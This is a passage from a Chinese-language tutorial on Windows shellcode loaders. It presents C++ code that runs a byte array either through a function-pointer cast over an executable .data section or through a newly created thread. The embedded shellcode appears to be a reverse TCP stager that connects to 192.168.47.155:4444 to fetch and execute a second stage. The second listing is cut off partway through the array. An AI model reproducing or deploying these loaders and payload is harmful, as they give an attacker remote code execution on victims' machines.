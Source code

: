

# 2.使用函数指针加载

如下代码所示，`(void(*)(void))`是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 `buf` 的地址转换为一个函数指针，然后调用该指针所指向的函数，其实这种方法和上述加载方式原理是一样的，只不过这种方法还能用于加载64位的ShellCode

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {   
	((void(*)(void)) & buf)();  //执行ShellCode
}
```



# 3.创建线程加载

上述两种方法都需要将data节的内存设置成可读可写可执行,  以下这段代码的主要作用是在内存中分配一段可执行的内存空间，将buf数组中的内容复制到该内存空间，并创建一个新线程来执行这段内存中的代码

```cpp
#include <Windows.h>

unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
```